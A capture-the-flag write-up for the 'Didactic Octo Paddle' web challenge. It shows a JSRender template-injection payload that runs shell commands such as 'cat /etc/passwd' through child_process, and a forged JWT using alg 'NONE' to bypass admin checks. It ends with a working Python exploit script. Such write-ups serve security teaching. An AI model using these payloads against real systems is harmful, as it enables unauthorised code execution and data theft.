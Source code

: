 # Didactic Octo Paddle :: Medium

## Scenario

```
You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river.
You must hack into the paddle shop's system to obtain information on the relic's location.
Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.
```

## Solve

![](/images/didactic-source-tree.png)

The challenge begins with a login prompt.  

![](/images/didactic-login.png)

While looking at the routes defined in the `index.js` file, we stumble upon a `/register` route that let's us create a user.  

![](/images/didactic-register.png)

We create a user.  

![](/images/didactic-user-created.png)

We can then login and see the store:  

![](/images/didactic-webshop.png)

It seems like they're selling litteral paddles.  
It is a webshop.  

### Obtaning RCE

There is an admin page at `/admin`, this page lists the existing users.  

Here is the code of the `admin.jsrender` file:  

```html
<!DOCTYPE html>
<html lang="en">

	<!--- //snip // --->

<body>
  <div class="d-flex justify-content-center align-items-center flex-column" style="height: 100vh;">
    <h1>Active Users</h1>
    <ul class="list-group small-list">
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
    </ul>
  </div>
</body>

</html>
```

Here is the code for the `/admin` route.  

```javascript
    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });
```

There is actually an SSTI vulnerability here.  
The `jsrender.templates` function templates the given string.  
This can actually lead to RCE as detailed in this article:  

- https://appcheck-ng.com/template-injection-jsrender-jsviews
- https://www.jsviews.com/#htmltag

```http
POST /register HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.143.81:30500/register
Content-Type: application/json
Origin: http://138.68.143.81:30500
Content-Length: 40
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5MTQ5NDYyLCJleHAiOjE2NzkxNTMwNjJ9.0_s2fX-jd31nc6fNFQwRZktx-UQm9GnBxK8CvsOct2k

{"username":"{{:7*7}}","password":"gh0st"}
```

This request will cause 49 to appear on the admin's page.  
Now, one question arises, is admin a bot or do we have to elevate ?  

```javascript
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```

This works, it gets RCE on my local instance.  
Now time to figure out the admin situation.  

### Obtaining Admin

While reading the source for `AdminMiddleware.js`, I found a weird condition on the JWT's `alg` value.  
Here is the condition:  

```javascript
// alg == none --> Login
// alg == HS256 --> decode with secret
// else --> Just decode i guess ?

    if (decoded.header.alg == 'none') {
        return res.redirect("/login");
    } else if (decoded.header.alg == "HS256") {
        const user = jwt.verify(sessionCookie, tokenKey, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res.status(403).send("You are not an admin");
        }
    } else {
        const user = jwt.verify(sessionCookie, null, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res
                .status(403)
                .send({ message: "You are not an admin" });
        }
    }
```

Maybe I can dodge signature validation ?  

Something like a default value for it, or specifying an unsafe algorithm.  

While tinkering with this condition locally, I found an authentication bypass.  

The condition is that the `decoded.header.alg` value equals the string `'none'`.  
There could be a way to bypass this, if the underlying library normalizes the `alg` values coming in the `verify` function.  

This is how we bypass it, we simply specify the `alg` as `'NONE'` instead.  
This goes through to the `else`, which decodes the value and treats the token as valid.  

Using this, we can craft an administrator token.  

Here is our JWT:  

```json
{"alg":"NONE","typ":"JWT"}{"id":1,"iat":1679153124,"exp":1679156724}
```

`alg`: `"NONE"` will bypass the condition.  
`id`: 1 represents the administrator user.  

We encode it: 
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.
```

HERE WE GOOOOO:
```http
GET /admin HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.;
Upgrade-Insecure-Requests: 1

```
  
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1020
Date: Fri, 24 Mar 2023 01:45:03 GMT
Connection: close

<!DOCTYPE html>

//snip //
```

Now that we can visit the admin page, we put it all together and create a malicious user to extract the flag.  

## Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://127.0.0.1:1337
ADMIN_ENDPOINT = "/admin"
AUTH_BYPASS_SESSION = "eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9."
REGISTER_ENDPOINT = "/register"
JSRENDER_SSTI = \
        "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}"


if __name__ == "__main__":
    s = requests.Session()
    r = requests.post(TARGET + REGISTER_ENDPOINT, json={"username": JSRENDER_SSTI, "password": "O0ops"})
    s.cookies.set("session", AUTH_BYPASS_SESSION, domain="127.0.0.1")
    flag = s.get(TARGET + ADMIN_ENDPOINT)
    print(flag.text)
```

